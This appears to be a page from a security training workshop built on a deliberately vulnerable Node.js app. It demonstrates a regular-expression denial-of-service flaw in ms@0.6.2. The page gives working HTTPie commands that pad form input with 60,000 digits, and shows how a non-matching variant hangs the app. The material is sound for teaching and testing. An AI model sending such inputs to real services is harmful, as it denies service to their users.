 # Example 3

Our third example vulnerability is with the [`ms`](https://www.npmjs.com/package/ms) [npm](https://www.npmjs.com/) package. This is a module that allows easy conversion of various time formats into milliseconds. The issue here is that we are using `ms@0.6.2` and this has a [Regular Expression Denial of Service (ReDos)](https://snyk.io/test/npm/ms/0.6.2) vulnerability.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/vuln\_ms.png)

What this package allows us to do is to take a string input and parse into milliseconds which our application will then use to send a reminder. For example:

![](http://g.recordit.co/tgye3UMxmo.gif)

To demonstrate this vulnerability, we will move to the terminal. Let's run the following command against our application:

```
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

�The result will be console output similar to this:

```
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

A corresponding web result will look like this:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/goof\_ms\_01.png)

Now we will take the previous command but print the digit 5 a total of 60,000 times. This regular expression will take a non-linear amount of time to process an input. The longer the input, the longer the processing time. Let's run the following command

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

The result here was surprisingly fast. However, what happens when the regular expression does not match? To illustrate this, let's take the same command and swap the _**s**_ in _**minutes**_ for an _**a**_ instead. Type the following command:

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

This command will take a while to process and result in a non-responsive application. If you try to add or remove tasks the application will not respond and you have blocked legitimate requests from processing.
